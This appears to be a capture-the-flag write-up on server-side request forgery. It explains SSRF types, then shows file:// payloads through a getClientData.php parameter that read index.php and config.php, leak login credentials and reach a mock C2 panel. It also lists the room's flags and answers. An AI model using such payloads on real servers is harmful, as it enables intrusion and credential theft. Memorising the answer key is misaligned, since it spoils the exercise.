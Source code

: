# Day_22 [SSRF] Jingle Your SSRF Bells: A Merry Command & Control Hackventure

+ Deployable Machine: Yes

Description: As the elves try to recover the compromised servers, McSkidy's SOC team identify abnormal activity and notice that a massive amount of data is being sent to an unknown server (already identified on Day 9). An insider has likely created a malicious backdoor. McSkidy has contacted Detective Frost-eau from law enforcement to help them. Can you assist Detective Frost-eau in taking down the command and control server?

> IP: [10.10.189.202]

## LEARNING OBJECTIVES

1. Understanding server-side request forgery (SSRF)
2. Which different types of SSRF are used to exploit the vulnerability
3. Prerequisites for exploiting the vulnerability
4. How the attack works
5. How to exploit the vulnerability
6. Mitigation measures for protection

## OVERVIEW

1. What is SSRF?
   1. SSRF, or server-side request forgery, is a security vulnerability that occurs when an attacker tricks a web application into making unauthorised requests to internal or external resources on the server's behalf.
2. Types of SSRF
   1. Basic: In a basic SSRF attack, the attacker sends a crafted request from the vulnerable server to internal or external resources. For example, they might attempt to access files on the local file system, internal services, or databases that are not intended to be publicly accessible.
   2. Blind SSRF: In a blind SSRF attack, the attacker doesn't directly see the response to the request. Instead, they may infer information about the internal network by measuring the time it takes for the server to respond or observing error message changes.
   3. Semi-blind SSRF: In semi-blind SSRF, again, the attacker does not receive direct responses in their browser or application. However, they rely on indirect clues, side-channel information, or observable effects within the application to determine the success or failure of their SSRF requests. This might involve monitoring changes in application behaviour, response times, error messages, and other signs.
3. How Does SSRD Work?
   1. Identifying vulnerable input: The attacker locates an input field within the application that can be manipulated to trigger server-side requestsImage for how SSRF works. This could be a URL parameter in a web form, an API endpoint, or request parameter input such as the referrer.
   2. Manipulating the input: The attacker inputs a malicious URL or other payloads that cause the application to make unintended requests. This input could be a URL pointing to an internal server, a loopback address, or an external server under the attacker's control.
   3. Requesting unauthorised resources: The application server, unaware of the malicious input, makes a request to the specified URL or resource. This request could target internal resources, sensitive services, or external systems.
   4. Exploiting the response: Depending on the application's behaviour and the attacker's payload, the response from the malicious request may provide valuable information, such as internal server data, credentials, system credentials/information, or pathways for further exploitation.

## STEPS

1. Deploy Machine
2. Add IP:[http://mcgreedysecretc2.thm] to /etc/hosts file
3. Go to website
   1. We are met with a login
   2. Lets look at the URL to see if we can exploit any endpoints
4. URL
   1. Request to [http://10.10.189.202/getClientData.php?url=http://IP_OF_CLIENT/NAME_OF_FILE_YOU_WANT_TO_ACCESS]
   2. Exploit Response
      1. Lets try and get the code of the index page
      2. [http://10.10.189.202/getClientData.php?url=file:////var/www/html/index.php]
         1. Now we see the index.php code

            ```php
               <?php
               session_start();
               include('config.php');
               // Check if the form was submitted
               if ($_SERVER["REQUEST_METHOD"] == "POST") {
               // Retrieve the submitted username and password
               //print_r($_SERVER);
               $uname = $_POST["username"];
               $pwd = $_POST["password"];

               // Check if both the username and password are "hello"
               if ($uname === $username && $pwd === $password) {
                  // If both are "hello," load the page (replace 'page.php' with the actual page URL)
                  $_SESSION['logged_in'] = true;
                  header("Location: dashboard.php");
                  exit();
               } else {
                  // If not, display an error message
                  $error_message = "Invalid password. Please try again.";
               }
               }
               ?>
            ```

            1. Now we can see how the login works lets check for the config.php file

5. EXPLOIT
   1. Lets try and get the config.php file
      1. Go to [http://10.10.189.202/getClientData.php?url=file:////var/www/html/config.php]

         ```php
            <?php
               $username = "mcgreedy";
               $password = "mcgreedy!@#$%";
            ?>
         ```

         1. Awesome now we have credentials lets try signing in
   2. SignIn
      1. UN: mcgreedy
      2. PW: mcgreedy!@#$%
         1. SUCCESS! We now see the doashboard and a flag
            1. FLAG: `Flag: THM{EXPLOITED_31001}`
   3. DASHBOARD
      1. Looking at the bottom of the dashboard we see the `Version 1.1`
      2. Remove the McSkiddy Action
         1. FLAG: `THM{AGENT_REMOVED_1001}`

## QUESTIONS

1. Is SSRF the process in which the attacker tricks the server into loading only external resources (yea/nay)?
   1. `Nay`
2. What is the C2 version?
   1. `1.1`
3. What is the username for accessing the C2 panel?
   1. `mcgreedy`
4. What is the flag value after accessing the C2 panel?
   1. `THM{EXPLOITED_31001}`
5. What is the flag value after stopping the data exfiltration from the McSkidy computer?
   1. `THM{AGENT_REMOVED_1001}`
